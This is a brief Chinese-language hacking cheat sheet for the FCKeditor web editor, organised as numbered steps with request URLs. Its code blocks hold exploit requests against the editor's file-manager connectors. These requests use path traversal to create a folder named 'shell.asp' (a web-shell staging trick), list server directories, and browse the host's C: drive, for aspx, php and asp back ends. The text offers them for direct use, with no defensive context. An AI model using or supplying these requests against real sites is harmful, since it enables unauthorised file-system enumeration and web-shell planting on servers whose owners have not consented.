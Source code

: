 # FCKeditor 列目录

**1、FCKeditor/editor/fckeditor.html**

`FCKeditor/editor/fckeditor.html`不可以上传文件，可以点击上传图片按钮再选择浏览服务器即可跳转至可上传文件页，可以查看已经上传的文件。

**2、根据xml返回信息查看网站目录**


```
http://url/fckeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=CreateFolder&Type=Image&CurrentFolder=../../../&NewFolderName=shell.asp
```

**3、获取当前文件夹**


```bash
FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
```

**4、游览c盘**


```
/FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=c:/
```